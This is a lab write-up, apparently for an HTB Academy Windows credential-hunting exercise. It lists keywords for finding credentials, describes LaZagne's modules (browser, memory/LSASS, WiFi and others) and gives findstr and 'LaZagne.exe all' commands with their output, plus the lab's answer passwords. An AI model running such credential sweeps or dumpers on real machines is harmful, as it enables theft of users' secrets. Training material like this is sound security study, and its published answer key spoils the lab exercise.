





## Key terms to search for

Whether we end up with access to the GUI or CLI, we know we will have some tools to use for searching but of equal importance is what exactly we are searching for. Here are some helpful key terms we can use that can help us discover some credentials:

- Passwords
- Passphrases
- Keys
- Username
- User account
- Creds
- Users
- Passkeys
- configuration
- dbcredential
- dbpassword
- pwd
- Login
- Credentials


## Search Tools 

- `Windows Search`
- `LaZagne`

## LaZagne

- We can also take advantage of third-party tools like [LaZagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store.

|Module|Description|
|---|---|
|browsers|Extracts passwords from various browsers including Chromium, Firefox, Microsoft Edge, and Opera|
|chats|Extracts passwords from various chat applications including Skype|
|mails|Searches through mailboxes for passwords including Outlook and Thunderbird|
|memory|Dumps passwords from memory, targeting KeePass and LSASS|
|sysadmin|Extracts passwords from the configuration files of various sysadmin tools like OpenVPN and WinSCP|
|windows|Extracts Windows-specific credentials targeting LSA secrets, Credential Manager, and more|
|wifi|Dumps WiFi credentials|

---
## Questions and Solutions

RDP to with user `"Bob"` and password `"HTB_@cademy_stdnt!"`

- What password does Bob use to connect to the Switches via SSH? (Format: Case-Sensitive)
	- **WellConnected123**


#### RDP into the Windows Machine

```bash
$ xfreerdp3 /v:10.129.202.99 /u:Bob /p:'HTB_@cademy_stdnt!'
```




Open the WorkStuff and get the Creds



- What is the GitLab access code Bob uses? (Format: Case-Sensitive)
	- **3z1ePfGbjWPsTfCsZfjy**


#### Hunting Credentials using `findstr`

```cmd
C:\Users\bob>findstr /SIM /C:"Gitlab" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
.vscode\extensions\gitlab.gitlab-workflow-3.40.2\.gitlab-ci.yml
.vscode\extensions\gitlab.gitlab-workflow-3.40.2\LICENSE.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\DeviceSearchCache\AppCache134343855488157294.txt
AppData\Roaming\Mozilla\Firefox\Profiles\n3jtvbsy.default-release\cert_override.txt
Desktop\WorkStuff\GitlabAccessCodeJustIncase.txt

C:\Users\bob>more Desktop\WorkStuff\GitlabAccessCodeJustIncase.txt
Gitlab access code just in case I lose connectivity with our local Gitlab instance.
3z1ePfGbjWPsTfCsZfjy
```

- What credentials does Bob use with WinSCP to connect to the file server? (Format: username:password, Case-Sensitive)
	- **ubuntu:FSadmin123**


We need **LaZagne** for this so clone the repo in the attack machine and then transfer it to the Windows Machine and execute the below command there.

```cmd
start LaZagne.exe all
```




- What is the default password of every newly created Inlanefreight Domain user account? (Format: Case-Sensitive)
	- **Inlanefreightisgreat2022**


```cmd
C:\Users\bob>findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
AppData\Local\Google\Chrome\User Data\ZxcvbnData\1\passwords.txt
AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\2.0.0.0\passwords.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\AC\AppCache\O6UOR37I\33\C__Windows_SystemApps_Microsoft.Windows.Cortana_cw5n1h2txyewy_cache_Desktop_11[1].txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\AC\AppCache\O6UOR37I\33\C__Windows_SystemApps_Microsoft.Windows.Cortana_cw5n1h2txyewy_cache_Desktop_16[1].txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\AC\AppCache\O6UOR37I\33\C__Windows_SystemApps_Microsoft.Windows.Cortana_cw5n1h2txyewy_cache_Desktop_18[1].txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\AC\AppCache\O6UOR37I\33\C__Windows_SystemApps_Microsoft.Windows.Cortana_cw5n1h2txyewy_cache_Desktop_22[1].txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\AC\AppCache\O6UOR37I\33\C__Windows_SystemApps_Microsoft.Windows.Cortana_cw5n1h2txyewy_cache_Desktop_6[1].txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\ConstraintIndex\Apps_{1ad8b33c-f673-48e9-921c-c2c07f37a0a2}\0.0.filtertrie.intermediate.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\ConstraintIndex\Apps_{dccf1de4-c9c1-44d0-832b-309fdd7c8afd}\0.0.filtertrie.intermediate.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\ConstraintIndex\Input_{05524d3c-1d77-4245-b008-dedce09571e2}\appsglobals.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\ConstraintIndex\Input_{05524d3c-1d77-4245-b008-dedce09571e2}\appssynonyms.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\ConstraintIndex\Input_{05524d3c-1d77-4245-b008-dedce09571e2}\settingsglobals.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\ConstraintIndex\Input_{05524d3c-1d77-4245-b008-dedce09571e2}\settingssynonyms.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\ConstraintIndex\Settings_{9cb572c2-01b6-4e75-8bed-4e1dfcd61198}\0.0.filtertrie.intermediate.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\ConstraintIndex\Settings_{f88fc7ed-e3bf-4f6a-8cb4-fcd44a8260e0}\0.0.filtertrie.intermediate.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\DeviceSearchCache\AppCache134343881942235949.txt
AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\LocalState\DeviceSearchCache\SettingsCache.txt
AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


Searching inside the machine I found a folder Automation&Scripts and after opening it I discovered the below creds.



- What are the credentials to access the Edge-Router? (Format: username:password, Case-Sensitive)
	- **edgeadmin:Edge@admin123!**

```cmd
C:\Users>findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml | findstr /I "Edge"
bob\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\2.0.0.0\passwords.txt
```

I went to that location but didnt find anything useful. So then I opened the VScode and found the below stuff.



